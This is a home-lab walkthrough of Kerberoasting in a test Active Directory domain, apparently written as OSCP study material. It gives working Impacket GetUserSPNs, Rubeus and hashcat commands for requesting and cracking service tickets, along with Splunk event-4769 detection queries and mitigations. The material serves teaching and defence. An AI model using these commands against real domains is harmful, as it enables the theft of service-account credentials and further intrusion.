

# Lab: Kerberoasting

<div class="dfir-meta" markdown>
**Lab:** `lab.local` · DC01 `10.10.10.20` · Win10 `10.10.10.30` · Splunk on core `10.10.10.10` · **Last updated:** 2026-10-23
</div>

!!! abstract "In one sentence"
    A full Kerberoasting walkthrough in the home lab — the principle, setting up a vulnerable SPN account, roasting and cracking from Kali, and detecting it in Splunk via Windows event 4769.

!!! note "Study side vs. detection side"
    This is the hands-on version. The mechanism and detection reference lives at [Adversary › Kerberoasting](../../../adversary/kerberoasting.md); the exam-strategy view is on [Active Directory](../active-directory.md#credential-attacks).

## 1. Why it works { #how-it-works }

When a user wants to reach a service (MSSQL, a web app…), they ask the domain controller (KDC) for a **service ticket (TGS)** for that service. The key fact:

> Part of the TGS the KDC hands out is encrypted with the **password hash of the service account** that runs the service.

Kerberos does **not** check, at ticket-issuing time, whether you are actually allowed to use that service — that check happens later, at the service. So **any domain user** can request a TGS for any account that has an SPN (Service Principal Name).

The attack, in four steps:



No connection to the target service, no failed logon — just ordinary-looking Kerberos requests. It works because service accounts often have weak passwords that rarely change.

It is **not spoofing**, so unlike Responder poisoning it is **allowed** on the OSCP exam ([exam rules](../exam-format.md#restricted)).

## 2. Lab setup (once, on DC01) { #lab-setup }

You need a service account with an SPN and a weak password, plus a normal user to attack as. On DC01, as admin, in PowerShell:

```powershell
# 1) Vulnerable service account — SPN set, deliberately weak password
New-ADUser -Name "svc_mssql" -SamAccountName svc_mssql `
  -UserPrincipalName svc_mssql@lab.local `
  -AccountPassword (ConvertTo-SecureString "Password1" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
setspn -S MSSQLSvc/db01.lab.local:1433 svc_mssql

# 2) A normal domain user to attack as
New-ADUser -Name "j.doe" -SamAccountName j.doe `
  -AccountPassword (ConvertTo-SecureString "Welcome1!" -AsPlainText -Force) `
  -Enabled $true
```

`setspn -S MSSQLSvc/db01.lab.local:1433 svc_mssql` registers an SPN on `svc_mssql` — **an account is only Kerberoastable once it has an SPN.** The password `Password1` is in `rockyou.txt`, so the crack finishes in seconds; once the flow is familiar, change it to something not in rockyou (e.g. `Autumn2026!`) to feel a password that won't crack.

## 3. Run the attack (from Kali) { #attack }

Linux tooling (Impacket), to match the exam. Run it from a Kali VM or the host laptop (`10.10.10.1`). Kerberos needs **names**, so fix resolution first:

```bash
export DC=10.10.10.20
export DOMAIN=lab.local
echo "$DC dc01.lab.local dc01 lab.local" | sudo tee -a /etc/hosts
```

### 3.1 Find SPN accounts { #enumerate }

```bash
impacket-GetUserSPNs lab.local/j.doe:'Welcome1!' -dc-ip $DC
```

`impacket-GetUserSPNs` asks the domain over LDAP for accounts that have an SPN. The argument is `domain/user:password`; `-dc-ip` says which DC to ask.

```text title="Example output"
ServicePrincipalName           Name       MemberOf  PasswordLastSet      LastLogon
-----------------------------  ---------  --------  -------------------  ---------
MSSQLSvc/db01.lab.local:1433   svc_mssql            2026-10-23 09:12:01  <never>
```

No ticket requested yet — this only confirms the target exists.

### 3.2 Request tickets { #request }

```bash
impacket-GetUserSPNs lab.local/j.doe:'Welcome1!' -dc-ip $DC -request -outputfile kerberoast.txt
```

`-request` actually asks for the TGS of each SPN account and saves a crackable form to the file:

```text title="kerberoast.txt (one line, truncated)"
$krb5tgs$23$*svc_mssql$LAB.LOCAL$MSSQLSvc/db01.lab.local:1433*$a1b2...<long hex>...9f0e
```

`$krb5tgs$23$` matters: `krb5tgs` = a Kerberos TGS hash, and `23` = encryption type **RC4 (etype 23 / 0x17)**. RC4 cracks fast — good for the attacker, and a detection signal for the defender (§4). An AES ticket would show `$krb5tgs$18$` and be far slower.

### 3.3 Crack offline { #crack }

```bash
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```

`-m 13100` tells hashcat this is a Kerberoast (RC4 TGS) hash — the wrong mode won't crack. On success the password is appended:

```text
$krb5tgs$23$*svc_mssql$LAB.LOCAL$...<snip>...:Password1
                                              ^^^^^^^^^  cracked password
```

Now feed `svc_mssql:Password1` into the "try it everywhere" step → [Active Directory › looting](../active-directory.md#looting). Service accounts are often privileged, so this frequently unlocks the next host.

### (alt) From Windows with Rubeus { #rubeus }

If you have a domain user session on Win10:

```powershell
.\Rubeus.exe kerberoast /nowrap
```

`/nowrap` keeps each hash on one line so it pastes cleanly into hashcat.

## 4. Detect it in Splunk { #detection }

Kerberoasting leaves **event 4769** on the DC.

Event code **4769 — "A Kerberos service ticket was requested"** is written to the **DC's Security log** whenever anyone requests a TGS. It fires thousands of times a day in normal use (every time a user reaches a file server, mail, etc.), so you don't look for "a 4769" — you look for a **suspicious-shaped** 4769:

| Field | Suspicious value | Why |
|---|---|---|
| `Ticket_Encryption_Type` | `0x17` (RC4) | Modern Windows defaults to AES (`0x12`). An RC4 request is the attack tool choosing weak crypto |
| `Service_Name` | one account requesting **many** in a short window | A normal user asks for one or two services; a single account sweeping SPNs is roasting |

### 4.0 Enable the audit first { #enable-auditing }

Your lab's audit policy doesn't yet include Kerberos service-ticket operations, so 4769 isn't being written. On DC01:

```cmd
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable /failure:enable
```

The event lands in **DC01's Security log**, so DC01's Universal Forwarder must ship the Security channel to Splunk. Note the trace is on the **DC**, not on the host you attacked from.

### 4.1 The SPL, one line at a time { #spl }

SPL chains commands with the pipe `|`: narrow the data on the left, reshape it at each `|`. Start by confirming the data arrives:

```spl
index=wineventlog source="WinEventLog:Security" EventCode=4769
```

`index=wineventlog` is where the Windows logs go (index named explicitly — no `index=*`). `source="WinEventLog:Security"` keeps only the Security channel. `EventCode=4769` keeps only service-ticket requests. Listed without pipes, these are all AND conditions.

Now keep only RC4:

```spl
index=wineventlog source="WinEventLog:Security" EventCode=4769 Ticket_Encryption_Type=0x17
```

Then drop computer accounts (their SPNs end in `$`) and krbtgt:

```spl
index=wineventlog source="WinEventLog:Security" EventCode=4769 Ticket_Encryption_Type=0x17
  Service_Name!="*$" Service_Name!="krbtgt"
```

`!=` is "not equal", `*` is a wildcard, so `Service_Name!="*$"` means "service name does not end in `$`".

Finally, group by requester to expose the sweep:

```spl
index=wineventlog source="WinEventLog:Security" EventCode=4769 Ticket_Encryption_Type=0x17 Service_Name!="*$"
| stats dc(Service_Name) as spn_count values(Service_Name) as services by Account_Name, Client_Address
| where spn_count > 3
```

`stats` aggregates: `dc(Service_Name)` is a distinct count of service names, saved as `spn_count`; `values(Service_Name)` collects the actual names into `services`; `by Account_Name, Client_Address` groups per requesting account and source IP. `| where spn_count > 3` keeps only accounts that asked for 4+ distinct SPNs.

```text title="Example result"
Account_Name   Client_Address   spn_count   services
------------   --------------   ---------   -----------------------------------------
j.doe          10.10.10.30      7           MSSQLSvc/db01... HTTP/web01... CIFS/fs01...
```

One account, from the box you attacked, asking for 7 distinct SPNs over RC4 — the classic Kerberoasting shape. `Account_Name` and `Client_Address` are your investigation starting points.

!!! note "If a field isn't extracted"
    If `Ticket_Encryption_Type` isn't a field in your instance, pull it from the raw text: `| rex field=Message "Ticket Encryption Type:\s+(?<enc>0x[0-9a-fA-F]+)"` then `| search enc=0x17`. `rex` extracts a regex capture group into a new field `enc`.

### 4.2 Reproduce with Atomic Red Team { #atomic }

Kerberoasting is **T1558.003**. On Win10:

```powershell
Invoke-AtomicTest T1558.003 -ShowDetails
Invoke-AtomicTest T1558.003
```

Run it, then confirm the 4769s appear with the query above — the attack→detect cycle your lab is built for.

## 5. Zeek (sensor stack) { #zeek }

Once the Zeek sensor is up, Kerberos traffic is in `kerberos.log` with `request_type` (AS/TGS), `service` (the requested SPN), `success`, and encryption info. The network signal is the same — a burst of TGS requests from one source using weak encryption. Cross-checking host logs (4769) against network logs (`kerberos.log`) is the hunting standard. See [Network](../../../network/index.md).

## 6. Mitigation (report-ready) { #mitigation }

- Move service accounts to **gMSA** (group managed service accounts) — long, auto-rotated passwords make cracking impractical.
- If a normal account must be used, require a **25+ character** password; Kerberoasting is an offline crack, so length defeats it.
- Disable RC4 and allow **AES only**, so `0x17` tickets never appear.
- Alert on **RC4 4769** requests (the SPL above as a saved search).

## Related pages

- [Adversary › Kerberoasting](../../../adversary/kerberoasting.md) (detection reference) · [Active Directory](../active-directory.md#credential-attacks) · [Exam format › restrictions](../exam-format.md#restricted)
- Next cousin technique: AS-REP Roasting (no password needed) — [Adversary › AS-REP Roasting](../../../adversary/asrep-roasting.md)

## References

- [OffSec — OSCP Exam with AD Preparation](https://help.offsec.com/hc/en-us/articles/4547917816468-Offensive-Security-OSCP-Exam-with-AD-Preparation)
- [MITRE ATT&CK T1558.003 — Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
